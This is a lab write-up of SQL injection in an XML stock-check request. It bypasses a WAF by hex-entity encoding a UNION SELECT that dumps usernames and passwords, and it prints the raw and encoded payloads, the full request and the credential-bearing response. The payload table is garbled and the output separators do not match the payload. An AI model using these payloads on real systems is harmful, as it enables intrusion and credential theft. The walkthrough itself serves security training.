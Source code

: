 
# Lab: SQL Injection with Filter Bypass via XML Encoding

## Lab Description

This lab contains a SQL injection vulnerability in the **stock check** feature of a web store application. The backend processes XML input and uses a SQL query that returns only a **single column**.

The application is protected by a **Web Application Firewall (WAF)**, which blocks obvious SQL injection attempts. To solve the lab, we must **bypass the WAF** using encoding techniques and exploit the vulnerability to retrieve the `administrator`'s credentials from the `users` table.

---

## Objective

* Identify and exploit the SQL injection vulnerability in the XML-based request.
* Use encoding to bypass WAF filters.
* Extract the `administrator`'s username and password from the `users` table.
* Log in as the administrator to solve the lab.

---

## Environment Setup

* Target Endpoint: `POST /product/stock`
* Tools used:

  * Burp Suite (with Hackvertor extension)
  * Burp Repeater
  * Browser (Burp embedded or external)

---

## Step-by-Step Exploit Walkthrough

### 1. Initial Recon

* Intercepted a stock check request in Burp Suite.
* Observed that the request body is in XML format:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

---

### 2. Understanding the Backend Query

* From behavior and description, the backend query resembles:

```sql
SELECT * FROM products WHERE productId = '<input>' AND storeId = '<input>';
```

* The app only displays results when the query returns a single column.
* WAF blocks raw SQL injection keywords and special characters like `'`, `UNION`, and `--`.

---

### 3. Injection Point and Payload Design

* Injection point identified in the `<storeId>` tag.

* Designed a payload to extract usernames and passwords by **concatenating** them into a single column using the `||` operator.

* Raw Payload:

```sql
1 UNION SELECT username || '~' || password FROM users
```

* Encoded with **Hackvertor > Encode > Hex Entities** to bypass WAF:

```xml
<storeId>&#x31;&#x20;UNION&#x20;SELECT&#x20;username&#x20;||&#x20;&#x27;&#x7E;&#x27;&#x20;||&#x20;password&#x20;FROM&#x20;users</storeId>
```

---

### 4. Executing the Attack

* Used Burp Repeater to modify and send the following full request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>&#x31;&#x20;UNION&#x20;SELECT&#x20;username&#x20;||&#x20;&#x27;&#x7E;&#x27;&#x20;||&#x20;password&#x20;FROM&#x20;users</storeId>
</stockCheck>
```

* The WAF did not block the request, and the backend returned concatenated `username~password` results.

---

### 5. Results and Verification

* Extracted this output from the HTTP response:

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 100

wiener-dyq8jdsnf9k8e1oupf3h
administrator-ihcmjydgpf5cmtsua8mi
956 units
carlos-a2km3sdhxzi5d9rmqb79
```

* Logged in to the application using the `administrator` account and the extracted password to solve the lab.

---

## Payloads Used

| Description                     | Payload (Encoded)          |   |        |   |                        |
| ------------------------------- | -------------------------- | - | ------ | - | ---------------------- |
| Concatenate username & password | \`1 UNION SELECT username  |   |  '\~'  |   |  password FROM users\` |

---

## Lessons Learned

* WAFs can block obvious SQL injection attempts, but encoding tricks (like Hex Entities) are often overlooked.
* XML-based inputs are just as vulnerable to injection as GET/POST parameters.
* Concatenation (`||`) can be used to bypass single-column limitations in SQL queries.
* Proper input validation, escaping, and use of parameterized queries are essential for defense.

---

## Screenshots and Images

1. **Intercepted XML Request & Sent to Repeater:**
   ![intercept-request](./repeater.png)

2. **Successful Response:**
   ![sql-response](./goodresponse.png)

---

## Conclusion

This lab demonstrates the effectiveness of encoding-based WAF bypasses and the critical nature of protecting all input vectors — including XML — from SQL injection. Even basic encoding can bypass naïve security filters and expose sensitive application data.


